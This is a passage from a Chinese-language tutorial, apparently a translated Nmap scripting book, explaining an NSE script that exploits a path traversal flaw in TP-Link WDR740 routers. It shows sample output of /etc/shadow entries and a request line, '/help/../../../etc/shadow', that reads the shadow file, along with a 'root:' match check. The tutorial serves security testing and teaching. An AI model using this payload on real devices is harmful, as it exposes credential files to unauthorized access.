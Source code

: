 ```
-- |   lp:*:10933:0:99999:7:::
-- |   sync:*:10933:0:99999:7:::
-- |   shutdown:*:10933:0:99999:7:::
-- |   halt:*:10933:0:99999:7:::
-- |   uucp:*:10933:0:99999:7:::
-- |   operator:*:10933:0:99999:7:::
-- |   nobody::10933:0:99999:7:::
-- |   ap71::10933:0:99999:7:::
-- |   
-- |     References:
-- |_      http://websec.ca/advisories/view/path-traversal-vulnerability-tplink-wdr740
```

## 它是如何工作的...

脚本`http-tplink-dir-traversal.nse`执行以下任务以利用讨论的路径遍历漏洞：

1.  首先，它发送路径遍历请求以确定安装是否易受攻击。

1.  如果安装易受攻击，则从 Web 服务器发送的响应中提取请求的文件。

1.  向用户报告漏洞并提供概念验证。

在这种情况下，需要`http`库来发送包含路径遍历有效负载的 HTTP 请求。为了确定设备是否易受攻击，我们请求文件`/etc/shadow`，因为我们知道所有设备中都存在此文件，并且其中必须存在一个 root 帐户：

```
local response = http.get(host, port, "/help/../../../etc/shadow")
```

响应应该包含请求的文件，位于结束脚本标记`</SCRIPT>`之后的正文中：

![工作原理...](img/7485_09_01.jpg)

要确认可利用性，我们只需要将响应主体与字符串"root:"进行匹配：

```
if response.body and response.status==200 and response.body:match("root:") then
    stdnse.print_debug(1, "%s:Pattern 'root:' found.", SCRIPT_NAME, response.body)
    return true
  end
```
